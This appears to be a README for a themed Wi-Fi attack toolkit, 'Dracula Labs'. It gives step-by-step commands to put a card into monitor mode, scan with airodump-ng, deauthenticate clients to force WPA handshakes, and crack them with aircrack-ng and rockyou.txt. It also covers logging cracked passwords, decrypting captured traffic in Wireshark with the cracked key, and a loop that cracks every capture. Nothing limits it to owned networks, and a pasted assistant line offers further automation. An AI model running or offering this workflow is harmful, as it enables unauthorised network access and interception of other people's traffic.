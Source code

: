 🧪 Dashboard Features (Current):
🔘 Menu-based launcher with simple numbered input

📡 Monitor mode & scanning

🎯 Handshake capture & deauth

🧠 Auto-cracking all .cap files using rockyou.txt

🗂️ Saves cracked output to cracked-log.txt

🌐 Launches dashboard.html with one click

----------------------------------------------------------------------------------------------------------------

Run this in terminal:--------->>>   chmod +x dracula.sh
Launch It

From inside the folder-------->>>   ./dracula.sh

=================================================================================================================

🩸 𝔇𝔯𝔞𝔠𝔲𝔩𝔞 𝔏𝔞𝔟𝔰 — Quick Command Rituals
🧛 Start Monitor Mode

sudo ./start-monitor.sh
🧠 Scan Nearby Networks

sudo airodump-ng wlan0mon
Stop with Ctrl + C when you see your target

🧛 Capture Handshake

sudo ./capture.sh
Let it run until a client connects — look for EAPOL packets or WPA handshake: xx:xx:xx:xx at top.

💀 Deauth Clients (force reconnect)

sudo ./deauth.sh
Use this to kick clients off the network so they reconnect, triggering a handshake.

🧪 Crack Handshake (once .cap is captured)

aircrack-ng -w rockyou.txt handshake-capture-01.cap
Or:


aircrack-ng -w rockyou.txt -b <BSSID> handshake-capture-01.cap
🧛 After Cracking: What Next?
Here’s what Dracula would do after a successful crack:

✅ 1. Verify the Password Works
Test it by connecting to the Wi-Fi manually on a second device.

📜 2. Log the Results
Keep track of cracked networks:


echo "Network: VampireNest | BSSID: xx:xx:xx:xx | PASS: dracula123" >> cracked-results.txt
Or use a formatted .csv:


ESSID,BSSID,Password
VampireNest,AA:BB:CC:DD:EE:FF,dracula123
📊 3. Use Dashboard.html
If your dashboard.html is coded to read results, update it with:


<tr><td>VampireNest</td><td>AA:BB:CC:DD:EE:FF</td><td>dracula123</td></tr>
Want me to automate this? I can make the crack.sh auto-update your HTML.

🔥 4. Analyze Traffic with Cracked Key (Advanced)
Decrypt captured .cap traffic in Wireshark:

Open .cap in Wireshark

Go to:
Edit → Preferences → Protocols → IEEE 802.11

Add your cracked password under Decryption Keys:

makefile

wpa-pwd:dracula123:VampireNest
Now you can see decrypted data from the network.

🧰 5. Automate the Blood Ritual
Create a one-liner to crack all .cap files:


for f in *.cap; do aircrack-ng -w rockyou.txt "$f" | tee "${f%.cap}-results.txt"; done
🦇 Dracula's Ritual Summary
Task	Command
Start monitor mode	sudo ./start-monitor.sh
Scan networks	sudo airodump-ng wlan0mon
Capture handshake	sudo ./capture.sh
Deauth clients	sudo ./deauth.sh
Crack handshake	aircrack-ng -w rockyou.txt handshake.cap
Log cracked pass	echo "info" >> cracked-results.txt
Decrypt in Wireshark	wpa-pwd:password:SSID
Crack all .cap files	for f in *.cap; do ... ; done

